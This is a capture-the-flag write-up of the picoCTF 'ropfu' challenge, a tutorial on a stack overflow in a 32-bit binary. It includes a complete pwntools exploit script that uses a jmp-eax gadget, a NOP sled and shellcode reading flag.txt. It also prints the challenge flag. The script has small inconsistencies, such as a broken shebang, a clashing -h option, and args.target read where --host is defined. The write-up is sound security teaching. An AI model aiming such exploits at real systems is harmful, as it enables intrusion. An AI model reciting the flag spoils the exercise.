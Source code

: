 ```yaml
---
title: ropfu - Picoctf | 300 points
date: 2023-12-16 12:00:00 +100
categories: [picoctf, ctf, ropfu]
tags: [ctf, picoctf, ropfu]
---
```


# How to Use ROP Vulnerability in PicoCTF Ropfu Challenge

![Ropfu](/assets/images/picoctf_ropfu.jpeg)

Here is our challenge where we have to use ROP vulnerability as mentioned in the description. We can start the instance and download the source code as well as the executable to start our inspection and find out what we are dealing with.

>Before we begin, I would like to mention that if you don’t have any idea about ROP, ROP chain or how stack works then please get some knowledge before read this write up because I’m not explaining that here.
{: .prompt-warning }

![C code](/assets/images/original_c_code.png)

This is the code we got in the challenge, and it’s very small and simple.
We can see that it’s using the `gets` function which is vulnerable to perform buffer overflow attack, but wait! Where is the function to get the flag?. We can’t just use buffer overflow because we don’t have any function to get the flag from it and hence no function address to add in the stack. Here is the challenge description telling you that we will have to perform ROP chain in order to get the access to the shell actually, and then we will be going to find where the flag is. This is where many people can get idea that what is the difference between buffer overflow and ROP attacks. Just buckle up to check a little more about the binary so that we can find what is running on that server for this challenge.

![file type](/assets/images/file_type.png)

![binary details](/assets/images/binary_details.png)

This is a 32-bit Linux executable file (ELF 32-bit) but, Eh! Stack canary found. Hmm! Now what? Nothing to fear. It will be a little different, but we will get through it.

![Joke](/assets/images/joke1.png)

Okay, let’s fire up the `gdb` and check out this binary closely. As we saw earlier that the buffer size is set to 16 bytes, we will be going to create a payload to perform buffer overflow first. For that, first we will going to create  a pattern for it using `pattern create` in `gdb` of more than 16 bytes but keep in mind that we are dealing with the executable which have canary enabled. So now we will try to create a pattern with 50 bytes, and then we will find out the offset. I used the following below pattern to start with

![Pattern](/assets/images/pattern.png)

and now let’s check the offset.

![Offset](/assets/images/offset.png)

So now we find out the offset, which is 25 for our register $eip. Now we can use simple add some character to find the address in the register so that we can start creating our payload for the ROP chain. Because we are dealing with the Stack canary, I tried different payload size and found 28 bytes from where we can start buffer overflow. I used 50 bytes ‘A’s to check what is the address of ‘A’ to go to the stack to perform buffer overflow.

![eaf](/assets/images/eaf.png)

As we can see that we have 0x414141 at $eax which is our point of interest to start buffer overflow, and then we will be going to put return address of our shell payload in the stack before existing the code. Let’s check the stack so that we can find the address for $eax. For that, let’s use a great library name, ROPGadget.

![trace](/assets/images/trace.png)

The list a very big so we can use any editor or grep to find the jump code which we can use to go to $eax.

![eax](/assets/images/eax.png)

And there you go, we got the address to our $eax which we can use to create our payload.

I’ll be using pwn tool which is a great tool for CTF, using which it will be easy to create python code to deal with the netcat server for our operations and use our payload interactively.

We are almost at the there to finish this challenge and for that we will going to use all the details we have collected so far. Here is the little confusing part. How to create a payload. We can start with the ‘A’s because that’s the point from which we can have a control to our stack.

Now the main thing to think about is how we will add a return address to the stack so that we can get back to the code instead of exiting the execution and call our address and then again instead of going to the same return point we will have to jump the addresses that we used to add a return. So here is the payload I created.

```python
payload = b"".join([
        b"A"*26,
        b"\xeb\x04",
        pwn.p32(0x0805334b),
        b"\x90"*offset, 
        pwn.asm(pwn.shellcraft.linux.cat("flag.txt"))
])
```

Let me tell you what is this. First, I added 26 bytes of ‘A’s and 2 bytes of short jump (remember 28 bytes we must use to perform buffer overflow). Short jump is used for jumping our return payload which is 0x0805334b else we will not be going to execute our shell payload. I used pwn tool to find and add this address in the stack. Now as we are using jump, it’s kind of not possible to know where exactly the code will jump so for that purpose I used NOPs which will help in the case where code will jump somewhere in the NOPs and the processor will do nothing as NOPs found till the next instruction which is out shell payload. We will save our some time and again use pwn to create that for us. I directly ran cat command because I know that file will be there. but we can run shellinstead if we want. And this is it. Below you can find the code for the same and test it. but I’ll suggest you to do it by yourself at least once.

```python
#/usr/bin/env python
import pwn
import argparse
parser = argparse.ArgumentParser()
parser.add_argument("destination", type=str, choices={"local", "remote"})
parser.add_argument("--host", "-h", type=str, default="", help="Enter the host")
parser.add_argument("--port", "-p", type=int, default=0, help="Enter the port")
args = parser.parse_args()
elf = pwn.ELF('./vuln')

new_eip = pwn.p32(0x0805334b)
short_jump = b"\xeb\x04"
shell_craft = pwn.asm(pwn.shellcraft.linux.cat("flag.txt"))
offset = 26
payload = b"".join([
        b"A"*offset,
        short_jump,
        new_eip,
        b"\x90"*offset, 
        shell_craft
])
payload += b"\n" # press enter
if args.destination == "local":
    p = elf.process()
elif args.destination == "remote":
    if not args.target or not args.port:
        pwn.warning("Please provide target and port to connect to remote server")
        exit()
    p = pwn.remote(args.target, args.port)
p.sendline(payload)
print(p.recvall().decode("latin-1"))
```

And the flag is: `picoCTF{5n47ch_7h3_5h311_c6992ff0}`

Hope this tutorial will help you to understand a bit about the challenge.
